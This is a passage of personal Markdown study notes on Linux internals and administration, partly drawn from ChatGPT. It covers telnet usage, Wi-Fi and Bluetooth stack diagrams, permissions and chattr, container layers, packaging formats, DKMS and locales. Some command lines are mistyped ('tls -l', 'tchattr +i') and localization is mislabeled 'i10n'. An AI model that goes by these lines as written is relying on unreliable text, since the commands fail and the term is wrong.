| HTTP2 support       | ✅                     | ✅                            |
| Web server (static) | ✅                     | ❌                            |
| Health checks       | Basic                 | Advanced                     |
| Metrics/logging     | Limited               | Rich stats page              |


------

**Summary**

- Use **NGINX** if you want a **web server + proxy** in one.
- Use **HAProxy** if you need **ultra-high-performance load balancing** or advanced **TCP routing**.

------

Would you like help generating a sample config for your specific use case (e.g., proxying to multiple apps or balancing DB traffic)?

##### Telnet

`telnet` is a **command-line tool and protocol** used to:

- Connect to remote machines over TCP
- Interact with remote services (like HTTP, SMTP, etc.)
- Test if a port is open / reachable
- Manually send data over raw sockets (great for debugging)

------

**Syntax**

```bash
telnet <hostname or IP> <port>
```

------

**Examples**

1. **Test a Web Server (Port 80)**

```bash
telnet example.com 80
```

Then type manually:

```bash
GET / HTTP/1.1
Host: example.com
```

→ This shows raw HTTP response headers. Press Enter twice after `Host:`.

------

2. **Check If a Port Is Open**

```
telnet 192.168.1.10 22
```

If the connection succeeds, the port is open. If it hangs or says *Connection refused*, it's not.

------

3. **Test SMTP Server (Send Email Manually)**

```
telnet smtp.example.com 25
```

Then manually type:

```
HELO test.com
MAIL FROM:<you@test.com>
RCPT TO:<admin@example.com>
DATA
This is a test email.
.
QUIT
```

------

4. **Close the Telnet Session**

Press:

```bash
Ctrl + ]
```

Then type `quit`.

------

🧠 When to Use `telnet`

- Quick connectivity tests
- Manually talking to services (for debugging)
- Network troubleshooting (is a firewall blocking it?)
- Educational tool to understand raw protocols (HTTP, SMTP, etc.)

------

**Warning**

- **Telnet sends everything in plaintext**, including passwords.
- Don’t use it for actual secure remote access (use `ssh` instead).
- Often disabled on modern servers for security reasons.

------

**Use `ssh` instead of telnet for secure remote logins:**

```bash
ssh user@host
```


#### openssl command :


#### IRC command :


-----------


#### Wifi 

```
                         USERSPACE
═══════════════════════════════════════════════════════════════

                    ┌───────────────┐
                    │  iw(command)  │
                    │   CLI tool    │
                    └───────┬───────┘
                            │
                    "configure/query Wi-Fi"
                            │
                    ┌───────┴────────-┐
                    │                 │
                    │ wpa_supplicant  │
                    │                 │
                    │ Wi-Fi connection│
                    │ & authentication│
                    └───────┬────────-┘
                            │
════════════════════════════╪══════════════════════════════════
                         KERNEL SPACE
                            │
                            ▼
                       ┌───────-──┐
                       │nl80211   │
                       │          │
                       │ Kernel ↔ │
                       │userspace │
                       │ Wi-Fi    │
                       │interface │
                       └────┬───-─┘
                            │
                            ▼
                       ┌────────-----─┐
                       │cfg80211      │
                       │              │
                       │ Common       │
                       │ Wi-Fi        │
                       │configuration │
                       │framework     │
                       └────┬───-----─┘
                            │
                 ┌──────────┴───────────┐
                 │                      │
                 ▼                      ▼
          ┌─────────────┐        ┌──────────────┐
          │  mac80211   │        │  Full-MAC    │
          │             │        │    driver    │
          │ Generic     │        │              │
          │ 802.11 MAC  │        │ MAC handled  │
          │ framework   │        │ largely by   │
          │             │        │ hardware/    │
          │ Handles     │        │ firmware     │
          │ common MAC  │        │              │
          │ functionality│       └──────┬───────┘
          └──────┬──────┘               │
                 │                      │
                 ▼                      │
          ┌──────────────┐              │
          │ Wi-Fi        │              │
          │ hardware     │◄─────────────┘
          │ driver       │
          │              │
          │ Hardware-    │
          │ specific     │
          │ code for     │
          │ chipset      │
          └──────┬───────┘
                 │
═════════════════╪════════════════════════════════════════════
                 │
                 ▼
              HARDWARE
          ┌──────────────┐
          │ Wi-Fi chipset│
          │    / radio   │
          └──────────────┘
```
#### Bluetooth

BlueZ

**BlueZ is the official Linux Bluetooth protocol stack.**

```
                                      USERSPACE
                    ══════════════════════════════════════════
                                      Applications
                                           │socket(AF_BLUETOOTH, ...)
                                           ▼
────────────────────────────────────────────────────────────────────────────----
│                             Linux Bluetooth stack                            │
│                                     BlueZ                                    │
│                                       ├── bluetoothd  ← main Bluetooth daemon│
│ command-line tool ← bluetoothctl    ──┤                                      │
│                                       ├── libraries/APIs                     │
│other Bluetooth utilities/components ──┤                                      │
│                                       │                                      │
────────────────────────────────────────┼──────-─────────────────────────────---
	                                    │
	                      ═══════════ KERNEL ═══════════
	                                    │
	                            Bluetooth subsystem
	                                    │
	                                    ▼
	                          Bluetooth HCI driver
	                                    │
	                                    ▼
	                             HCI interface
	                                     │
	             ┌───────────────────────┴────────────────────────┐
	             │                                                │
	             │ Host → Controller                              │
	             │                                                │
	             │ "Start scanning."                              │
	             │ "Connect to this device."                      │
	             │ "Transmit this Bluetooth data."                │
	             │                                                │
	             │ Controller → Host                              │
	             │                                                │
	             │ "I found a device."                            │
	             │ "The connection succeeded."                    │
	             │ "Here's some received data."                   │
	             │                                                │
	             └───────────────────────┬────────────────────────┘
                                     │
                      ═════════════════════════════════════
                                     ▼
                             Bluetooth controller
                              (chip / firmware)
                                     │
                                     ▼
                              Bluetooth radio
```


### 13. Users, Groups, and Permissions

Security and access control.

#### File Permissions: `rwx`

Each file/directory has **3 sets of permissions**:

| Position | User Type | Permissions (rwx) |
| -------- | --------- | ----------------- |
| 1–3      | Owner     | Read, write, exec |
| 4–6      | Group     | Read, write, exec |
| 7–9      | Others    | Read, write, exec |

**Example**:

```
-rwxr-xr-- 1 root root  4096 May 29  file.txt
```

- `-`: regular file (`d` for directory)
- `rwx`: owner (can read, write, execute)
- `r-x`: group (can read, execute)
- `r--`: others (can only read)

------

#####  Changing Permissions

`chmod`: Change file mode (permissions)

- **Symbolic Mode**:

  ```bash
  chmod u+x file     # Add execute to owner
  chmod g-w file     # Remove write from group
  chmod o=r file     # Set read-only for others
  chmod a+x script   # Add execute for all
  ```

- **Numeric Mode**:

  ```bash
  chmod 755 file
  ```

  | Digit | Binary | Meaning |
  | ----- | ------ | ------- |
  | 7     | 111    | rwx     |
  | 6     | 110    | rw-     |
  | 5     | 101    | r-x     |
  | 4     | 100    | r--     |

  **So:**

  - `chmod 755` = `rwxr-xr-x`
  - `chmod 644` = `rw-r--r--`

------

#####  Ownership

###### `chown`: Change owner

```bash
chown user file.txt          # change owner
chown user:group file.txt    # change owner and group
```

###### `chgrp`: Change group

```bash
chgrp group file.txt
```

------

##### Special Permissions

######  SUID (Set User ID)

- File runs with **owner’s** permissions (not the runner's).
- Use case: `passwd`
- Symbol: `s` in user execute field: `rwsr-xr-x`
- Set: `chmod u+s file`

######  SGID (Set Group ID)

- For files: run with **group's** permissions.
- For directories: new files inherit **group**.
- Symbol: `s` in group execute: `rwxr-sr-x`
- Set: `chmod g+s dir`

###### Sticky Bit

- Used on **directories** (e.g., `/tmp`): only owner can delete.
- Symbol: `t` in others execute: `rwxrwxrwt`
- Set: `chmod +t dir`

------

#####  Default Permissions

###### `umask`: Default permission mask

- Determines what bits to **remove** from default.

- Example:

  ```bash
  umask 022
  ```

  Default file perms: `666 - 022 = 644` → `rw-r--r--`
   Default dir perms: `777 - 022 = 755` → `rwxr-xr-x`

------

####  Advanced: ACLs (Access Control Lists)

**Allow more fine-grained permissions**

**Check ACL**:

```bash
getfacl file
```

**Set ACL**:

```bash
setfacl -m u:alice:r file      # Allow Alice to read
setfacl -m g:devs:rw file      # Group devs get read-write
```

**Remove ACL**:

```bash
setfacl -x u:alice file
```

------

**Test & Debug Permissions**

**See detailed info:**

```
tls -l        # basic view
namei -l /path/to/file  # permissions along path
stat file    # full info
```

**Check effective permissions:**

```
sudo -u another_user cat file
```

------

**Checklist**

| Task                 | Command                     |
| -------------------- | --------------------------- |
| View permissions     | `ls -l`                     |
| Change permissions   | `chmod 755 file`            |
| Change owner/group   | `chown user:group file`     |
| Set SUID/SGID/Sticky | `chmod u+s/g+s/+t file/dir` |
| Modify default umask | `umask 027`                 |
| Set ACL              | `setfacl -m u:bob:rw file`  |
| View ACL             | `getfacl file`              |

***

####  `lsattr`: List File Attributes

```
lsattr filename
```

Example:

```
----i--------e--  file.txt
```

Each letter is an attribute flag. Most important:

| Flag | Meaning                                        |
| ---- | ---------------------------------------------- |
| `i`  | **Immutable** – cannot modify, delete, rename  |
| `a`  | **Append-only** – can only add to the file     |
| `e`  | Extents format (used by ext4, mostly internal) |
| `d`  | Do not backup with dump utility                |


------

##### `chattr`: Change File Attributes

```
tchattr +i file.txt   # Make immutable
chattr -i file.txt   # Remove immutable flag
chattr +a file.txt   # Append-only
```

 **Effects on Permissions:**

- If a file is `+i` (immutable), even **root** can’t:
  - Edit it
  - Rename it
  - Delete it
  - Change permissions (via `chmod`)
  - Change ownership (via `chown`)
- If a file is `+a` (append-only), it can only:
  - Be written with `>>` (append)
  - Not `>` (overwrite), not removed

> These attributes override standard `rwx` behavior.

**Test** **Example**:

```
touch test.txt
chattr +i test.txt
echo "data" > test.txt     # Error: Permission denied
rm test.txt                # Error: Operation not permitted
chattr -i test.txt         # Now you can delete/edit
```

------

 **Notes**

- Works on **ext2/ext3/ext4** filesystems.
- Requires `sudo` for most changes.
- Very useful for protecting critical config files, logs, etc.

***

- UID, GID, `passwd`, `shadow`
- Permissions: `chmod`, `chown`, `setuid`

-----------------


------


### 14. Containers

It's important to know that container is not a virtual machine 

VM is:

``` VM
Application
    ↓
Guest OS
    ↓
Virtual hardware
    ↓
Hypervisor
    ↓
Real hardware
```

Container is:

```
	  Application/User/Developer
				   │
				   ▼
	Container filesystem + libraries
------------------------------------------
|			  Docker CLI                 |
|				   │                     |
|				   ▼                     |
|				Docker                   |
|			 Engine / API                |
|				   │                     |
|				   ▼                     |
|			   containerd                |
|				   │                     |
|				   ▼                     |
|				 runc                    |
|				   │                     |
|				   ▼                     |
------------------------------------------
			Linux kernel
				   │
				   ▼
				Hardware
```

#### runC:
Stands for run container (debatable), and it's a low level Container runtime
So it's role is to:
- clone a process
- Setup the process "Configure namespaces, mounts, capabilities, cgroups" 
- Run the process

#### Containerd:
Stands for Container daemon as in a system service
it's role is:
- Manage the creation of container
- Start/Stop the container
- Manage images. Image as in "App/Root FS/ Lib" and Managing as in Pulling and running
- Managing container FS snapshot 
	- When having a multiple container and the container can share the read only parts (called layer)
	- and have snapshots for the other parts that are unique to each container that are writable
	- this means less time, effort, and memory loading images for multiple continuers 

#### Docker Engine:
role:
- Image building "Has the configuration of how to build an image"
- Image distribution "Sharing with the docker hub" 
- container management "Manages multiple containers list them, delete them, configure them, etc."
- Manage volume for containers
- handle API
- Developer workflow

#### Docker CLI
role:
- Developer User interface

Docker doesn't make a separate mini-OS. It ultimately creates an ordinary Linux process whose view of the system has been isolated by the Linux kern

### 15. different Software packaging systems
#### Snap 
-  made by Ubuntu 
- Centralized store, and package management
- made for desktops, servers, and Embedded systems 

#### flatpak
- Open-source made by Redhat engineer
- Centralized store, package management
- made for desktop applications

#### AppImage
- Portable app package
- No Store, you make the package management, you update manually by replacing the image
- made for desktop applications


### 16. DKMS - Dynamic Kernel Module Support

- A kernel build has:
    - Kernel .config
    - Kernel headers
    - Kernel symbols
    - Kernel build system (kbuild)
    - Architecture/compiler/build configuration

- A kernel module interacts directly with the kernel and is compiled
  against the kernel's build environment and interfaces.

- Therefore, when a new kernel is installed, an out-of-tree module
  normally needs to be rebuilt against the new kernel.

- DKMS automates this process:
    - detects the new kernel
    - builds the registered out-of-tree driver source against it
    - installs the resulting .ko module

### 17. i18n vs. i10n
#### i18n 
```
internationalization
i n t e r n a t i o n a l i z a t i o n
↑                                     ↑
i                                     n
 \____________ 18 letters __________/
```

>Designing software so it can support **multiple languages, regions, date formats, number formats, currencies, etc.** without changing the core code.

>build it to be adaptable


#### i10n
```
localization
l o c a l i z a t i o n
↑                       ↑
l                       n
 \_______ 10 letters __/
```

>Actually adapting the internationalized software for a **specific language/region**.

>provide the actual values/rules for one specific locale.

**i18n is the development/design stage that makes the program capable of being localized.**  
**l10n is the application of that capability to a specific locale.**

```
i18n
│
│ Developer designs the software to support locales
▼
Locale-aware application
│
│ System/user selects a specific locale
▼
System Locale
│
├── Language
├── Region
├── Character encoding → UTF-8
├── Date/time rules
├── Number formatting
├── Currency
└── Collation/sorting
       │
       ▼
      l10n
  actual behavior for
  that specific locale
```

| Feature              | i18n does...                                   | l10n does...                                |
| -------------------- | ---------------------------------------------- | ------------------------------------------- |
| Translated text      | Provides mechanism to load different languages | Provides Arabic/French/etc. translations    |
| Date/time            | Makes formatting locale-aware                  | Defines the actual format for a locale      |
| Numbers              | Supports locale-aware formatting               | Defines `1,234.56` vs `1 234,56`, etc.      |
| Currency             | Allows currency to vary                        | Specifies currency conventions for a locale |
| Collation            | Makes sorting locale-aware                     | Provides the locale-specific sorting rules  |
| Cultural conventions | Makes them configurable                        | Supplies the actual cultural conventions    |
also there are Environmental variables that affect the localization (One of the mechanisms)
> LANG, LC_* , LC_ALL

Some variables override the others

```
│
├── LANG       ← default locale ← Lowest priority
│
├── LC_CTYPE   ← character handling      e.g. UTF-8, ASCII
├── LC_COLLATE ← sorting                 
├── LC_TIME    ← date/time
├── LC_NUMERIC ← numbers
├── LC_MONETARY← currency
└── ...
│
└── LC_ALL     ← overrides all of the above ← Highest priority
```

Example:
```
LANG=en_US.UTF-8
```
This says:
Language: English
Region: USA                       -> Date/number/Currency/ ... : USA conventions
Character set: UTF-8


### 🧰 Key Plumbing Tools

| Tool       | Purpose                         |
| ---------- | ------------------------------- |
| `strace`   | Trace system calls of a process |
| `lsof`     | List open files                 |
| `dmesg`    | Kernel ring buffer messages     |
| `top/htop` | Process viewer                  |
| `vmstat`   | System performance              |
| `iostat`   | Disk I/O statistics             |
| `iotop`    | Real-time disk I/O usage        |
| `perf`     | Performance analysis            |


-----------------

### Resources used for this file

1. [ChatGPT](https://chatgpt.com/share/68227130-1f34-8009-8191-2f4f616adf3b)
2. [DJ ware Linux internal playlist](https://www.youtube.com/watch?v=bdQ1wjmzGZ0&list=PLWK00SLo2KcQi1hlP2_allMWeG19MkQa7&index=5)
3. [Brian Will](https://www.youtube.com/watch?v=xHu7qI1gDPA&list=PLX1h5Ah4_XcfL2NCX9Tw4Hm9RcHhC14vs)
4. [Linux device drivers](https://www.youtube.com/watch?v=oX9ZwMQL2f4&list=PLERTijJOmYrAtfl5U_TAbCOisCNb7XEbb&index=19)
5. [Process Management General knowledge](https://www.youtube.com/watch?v=OrM7nZcxXZU)
6. [Linux booting](https://www.youtube.com/watch?v=XpFsMB6FoOs)
7. [Linux Directories in 100 sec](https://www.youtube.com/watch?v=42iQKuQodW4)
8. [Systemd Explained](https://www.youtube.com/watch?v=Kzpm-rGAXos)
9. [Learn Linux TV - Understanding Logging ](https://www.youtube.com/watch?v=6uP_f_z3CbM)
10. [Learn Linux TV - Jornalctl basics](https://www.youtube.com/watch?v=0dG3vUYt7Uk)
11. [Learn Linux TV - The Ultimate Deep Dive for Linux Users](https://www.youtube.com/watch?v=Kzpm-rGAXos&t=959s)
12. [Learn Linux TV -  systemd using the systemctl command](https://www.youtube.com/watch?v=5JVBpXiYMKo)

------------

### Further Learning Resources

- **Books:**
  - *Linux From Scratch* (build your own Linux system)
  - *The Linux Programming Interface* by Michael Kerrisk
  - *UNIX and Linux System Administration Handbook*
  - **The design of the UNIX Operating system by Maurice Bach's**
  - [Operating systems Internals and Design Principles by William Stallings](https://drive.google.com/file/d/1pbguidTmBihodGtnEzcxEa8mBSLfdo7f/view)
- **Tools:**
  - `man` pages (e.g., `man 7 signal`, `man 2 fork`)
  - `tldr` (simplified command help)
  - Online: [kernel.org](https://www.kernel.org), [Linux Foundation](https://www.linuxfoundation.org/)


